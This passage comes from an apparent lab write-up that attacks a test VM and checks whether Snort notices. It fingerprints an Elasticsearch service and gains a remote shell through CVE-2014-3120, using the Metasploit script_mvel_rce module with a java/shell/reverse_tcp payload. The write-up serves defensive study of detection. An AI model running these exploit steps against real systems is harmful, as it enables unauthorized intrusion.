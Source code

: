 Now we have something to work with.

#### Detection

There was no alerts in Snort's console about the port scan. To limit the scope of this project, I will not go into details how we are able to get snort to detect port scans. 

One can also argue that even if Snort or any other IDS (Intrusion Detection System) detects a port scan, what should it do? Blacklist the IP to prevent upcoming attacks? There is probably zero benefit from that, as the attacker rarely use one IP at the first place.

### ElasticSearch

Lets investigate what ports we could use. A decent way to do use is just to use browser and investigate:

e.g. if I used following url in my host machine http://172.28.128.3:9200/ , we get the following response:

```json
{
  ...
  "version" : {
    ...
    "lucene_version" : "4.7"
  },
  ...
}
```

Aha! Lucene hits that this could be ElasticSearch. 

#### Attack

Luckily for use, we can try to use [CVE-2014-3120](https://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2014-3120) and metasploits exploit/multi/elasticsearch/script_mvel_rce:

```shell
> use exploit/multi/elasticsearch/script_mvel_rce

> set payload java/shell/reverse_tcp
> set RHOST 172.28.128.3
> set RPORT 9200

> run

C:\Program Files\elasticsearch-1.1.1>
```
And we have a command line access in a target machine!

#### Detection

Although we gained command line access to our target machine, Snort (that has been plugged to investigate traffic into target matchine) did not alert anything. 

Let's investigate our Snort rules, is there something related to our vulnerability, CVE-2014-3120:
